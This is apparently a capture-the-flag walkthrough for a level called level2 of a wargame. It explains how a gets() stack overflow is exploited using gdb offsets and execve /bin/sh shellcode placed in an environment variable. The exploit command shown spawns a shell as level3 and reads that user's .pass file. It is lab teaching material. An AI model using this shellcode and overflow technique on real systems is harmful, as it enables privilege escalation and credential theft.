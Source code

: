 Like in level1, there is a call to `gets()`, we have to find the buffer size.

In `p()` we can see :
```
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
```
 eax value is at address `ebp-0x4c`, and `seip` is by convention at `ebp+0x04` so we do the maths :
```
>>> 0x04 - (-0x4c)
80
```
The buffer size is `80`
```
Starting program: /home/user/level2/level2 <<< $(python -c "print 'A' * 80 + 'BBBB'")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)  info reg ebp eip
ebp            0x41414141	0x41414141
eip            0x42424242	0x42424242
```
Those two lines after the call to `gets()` are showing a protection against a stack injection, no nop sleds is possible.
```
0x080484fb      and eax, 0xb0000000
0x08048500      cmp eax, 0xb0000000
```
For example, if we try to target an address after the `gets()` like `ret => 0x0804853e` and then go 4 bytes after the original EIP address `info frame` to target the NOP `0xbffff71c + 4 = 0xBFFFF720`, the program calls `exit`.

If we put our shellcode in an environment variable, we be sure that it's not alterated with the buffer.

take a shellcode:
http://shell-storm.org/shellcode/files/shellcode-827.php

```
export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
the NOP are added to optimize the chance that the ret address points to it so the SHELLCODE will be executed.

Get SHELLCODE var address with exploit then
```
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + [shellcode address] " & cat) | ./level2
whoami
level3
cat /home/user/level3/.pass
```